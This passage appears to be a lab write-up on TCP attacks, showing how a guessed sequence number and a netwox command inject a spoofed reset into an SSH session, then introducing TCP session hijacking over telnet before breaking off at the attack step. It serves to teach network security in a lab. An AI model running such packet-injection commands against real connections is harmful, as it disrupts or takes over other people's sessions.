 ```bash
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            10.2.1.5:52494          ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN
```

and here is the latest sequence number as captured by Wireshark (Wireshark shows by default the relative sequence number and we need to turn it off)

<img src="https://spanagiot.gr/networks/wireshark_seq.png" >

By inspecting the other packets we can see that the sequence number increases by 36 almost every time, so 1806966531+36=1806966567 will be our guess.

We launch the attack by running

```bash
netwox 40 -l 10.2.1.5 -m 10.2.1.16 -o 52494 -p 22 -B -q 1806966567
```

If we guess correctly, we will see on the client connected to the server this message

```bash
user@server:~$ packet_write_wait: Connection to 10.2.1.16 port 22: Broken pipe
```

which indicates that our attack was successful!

   <div class="page"/>

# 6: TCP Session Highjacking

A TCP hijack intercepts an established connection between two hosts. The attacker pretends to be one of the two hosts in the connection and this allows him to send packets that the other host will perceive as legitimate traffic.

Because the TCP protocol offers no security measures, it's easy for an attacker to perform this attack because a TCP connection consists of the IPs of the hosts and the ports they use and the traffic between them is unencrypted.

The only obstacle the attacker needs to overcome, is to correctly guess the sequence number of the packets so the crafted malicious ones won't be discarded as invalid.

#### Preparation

We will perform a TCP session hijack on an client that uses telnet to connect to a server. We selected telnet because the connection between the hosts is unencrypted, so it will be easier to demonstrate.

We will use again 3 machines, one VM and the host (10.2.1.5,10.2.12) as the legitimate users and the other VM as the attacker (10.2.1.13) (see preparation in the first attack).

#### Attack
